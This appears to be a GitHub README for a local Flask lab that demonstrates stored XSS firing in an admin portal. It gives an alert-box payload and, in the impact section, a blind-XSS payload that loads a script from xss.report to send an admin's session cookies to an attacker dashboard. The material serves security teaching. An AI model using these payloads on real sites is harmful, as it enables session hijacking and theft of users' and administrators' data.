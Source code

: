 <h1>Stored XSS In An Admin Portal</h1>

<h2>Overview</h2>

Stored-XSS can be a serious vulnerability, especially if your XSS Payloads trigger in an admin portal. Imagine your stored-blind xss payloads triggering in an admin portal, and you then recieve all of the
admin's session cookies. You could Session Hijack the administrator and cause negative effects for the website. And this all happened because someone forgot to sanitize user input somewhere.

Stored-XSS is fun to test for in Web Security, so me and ChatGippity built a little python program that uses Flask to spin up a simple little application that let's you see what it looks like when your stored-xss payloads
trigger in an admin portal.

<h2>How To Use The Stored XSS Test Program</h2>

1. Copy, Create and Start the python file in my Stored-XSS Repository labeled 'stored-xss-in-admin-portal.py'. The file is located at https://github.com/dante-falls/Web-Security/blob/main/Client-Side-Vulnerabilities/Cross-Site-Scripting(XSS)/Stored-XSS/stored-xss-in-admin-portal.py. Start the python file with python or python3. Reference the image below.

![start-stored-xss-test-suite](https://github.com/user-attachments/assets/099233f7-7f21-415c-84b0-d42ddb3b57dd)


2. After starting the Stored XSS In Admin Portal program, open your browser and visit http://127.0.0.1:5000. Reference the image below to see the program opened in my browser.

![open-stored-xss-app-in-browser](https://github.com/user-attachments/assets/b0268ed0-3b6e-4983-93b2-448350682e32)

3. Store an xss payload in the 'Send Message' box, and then press send. You can test out this payload ```test';"/><img/src/onerror=alert(0)>``` Reference the image below.

![storing-an-xss-payload](https://github.com/user-attachments/assets/b0621f81-47c4-44ed-a4d0-6abc7e75a20b)

4. After your xss payload is stored, notice that a javascript alert pops up on your screen. Exit the javascript alert and notice your payload is stored in the page source. Reference the image below.

![xss-execution-after-payload-storage](https://github.com/user-attachments/assets/2115dcfc-5717-4983-ada7-c28aae090d98)

5. Now let's see what happens when an admin views our messages in their Admin portal. Travel to http://127.0.0.1:5000/admin in your browser, or click 'Admin Portal'. Notice that you are directed to the
   admin portal and a javascript alert box pops up on your screen. When the admin portal then loads, your xss payload is stored on the page and in the page source. Reference the image below.
   
![admin-portal-view-during-xss-execution](https://github.com/user-attachments/assets/e97e3e17-015f-4704-be0f-76f1d2fe32ae)

6. You can delete all stored messages with the 'Delete All Messages' buttons.

<h2>IMPACT - Why Is This Important?</h2>

Stored XSS can be used to steal data and hijack user sessions. To do this, instead of using ```test';"/><img/src/onerror=alert(0)>``` to make a javascript alert box pop up on the user's screen, we can use a javascript
payload that will exfiltrate the user's session cookies to our attack server. The payloads on xss.report can do this, therefor to steal steal an admin's cookies on our app at http://127.0.0.1:5000/admin, we can store a blind-xss payload like this ```test';"/><img/src/onerror=import('//xss.report/c/fakeUser')>``` on http://127.0.0.1:5000 using the 'Send Message' box, and when an admin reads the message, their data will be exfiltrated to my attack dashboard on xss.report



